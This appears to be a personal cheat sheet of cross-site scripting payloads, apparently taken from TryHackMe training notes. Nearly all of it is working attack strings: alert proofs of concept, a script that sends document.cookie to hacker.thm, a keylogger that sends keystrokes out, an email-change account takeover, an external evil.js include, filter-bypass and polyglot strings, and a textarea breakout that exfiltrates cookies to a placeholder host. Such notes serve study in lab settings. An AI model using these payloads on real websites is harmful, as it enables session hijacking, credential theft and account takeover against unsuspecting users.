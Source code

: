 ===============================================================================
# XSS
```
Proof Of Concept:
<script>alert('XSS');</script>
<script>alert("XSS was successful!")</script>

Session Stealing:
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

Key Logger:
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

Business Logic:
This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail():

<script>user.changeEmail('attacker@hacker.thm');</script>


---
Reflected XSS		# use links
supplied data in an HTTP request is included in the webpage source without any validation
https://web.thm/?error=<script src="https://hacker.web/evil.js"></script>
---
Stored XSS		# stores the script on the database of other part like comments

---
What is the DOM?	# DOM stands for Document Object Model and is a programming interface for HTML and XML documents

---
Blind XSS		# We can't have proof of concept like xxs the ticket which only the internal staff see that 
xss hunter express	# is a tool help us with blind xxs


"><script>alert('THM');</script>			# when the input goes to value
</textarea>test						# the textarea could be bypassed
</textarea><script>alert('THM');</script>
';alert('THM');//					# escape the existing JavaScript command and run our command (when we see JavaScript on the source)
<sscriptcript>alert('THM');</sscriptcript>		# bypass filter to prevent filtering the word "script"
/images/cat.jpg" onload="alert('THM');			# we can use onload in the src tag to run our command

# XXS Polyglots, bypass all the filtering
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e



</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>

Let’s break down the payload:

The </textarea> tag closes the text area field.
The <script> tag opens an area for us to write JavaScript.
The fetch() command makes an HTTP request.
```
